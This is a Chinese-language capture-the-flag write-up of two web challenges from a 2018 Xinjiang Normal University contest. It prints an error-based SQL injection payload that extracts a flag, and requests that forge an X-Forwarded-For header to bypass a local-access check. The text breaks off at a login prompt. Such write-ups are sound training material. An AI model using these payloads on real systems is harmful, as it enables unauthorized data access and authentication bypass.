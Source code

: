 

# 2018 XJNU CTF Web Writeup

比较简单的新疆师范大学的 CTF 比赛 http://ctf.xjnu.edu.cn/

## Web10

整个网站疯狂暗示使用 sqlmap，然后网站源代码中有这样一段

```
<!-- id=1 -->
```

然后在链接中加上 `?id=1` 进行测试，出现了不同的返回。

初步判断 SQL 语句为：

```sql
select xxx from xxx where id=1
```

然后没有做任何的过滤，并且报错直接显示出来，因此使用报错注入。

```
http://ctf.xjnu.edu.cn:9900/web10/?id=1%20and%20extractvalue(1,concat(0x7e,(select%20flag%20from%20flag),0x7e))

XPATH syntax error: '~flag{Test_y0u_sql_Inject!}~'
```

## Web20

直接访问题目地址

```
> http http://ctf.xjnu.edu.cn:9900/web20/
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 21
Content-Type: text/html; charset=UTF-8
Date: Thu, 20 Sep 2018 15:39:57 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.7 (Ubuntu)
Set-Cookie: login=0
X-Powered-By: PHP/5.5.9-1ubuntu4.21

你不属于这里！
```

然后目测是 XFF 判断本地

```
> http http://ctf.xjnu.edu.cn:9900/web20/ X-Forwarded-For:127.0.0.1
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 24
Content-Type: text/html; charset=UTF-8
Date: Thu, 20 Sep 2018 15:44:55 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.7 (Ubuntu)
Set-Cookie: login=0
X-Powered-By: PHP/5.5.9-1ubuntu4.21

你还没有登录呢？
```
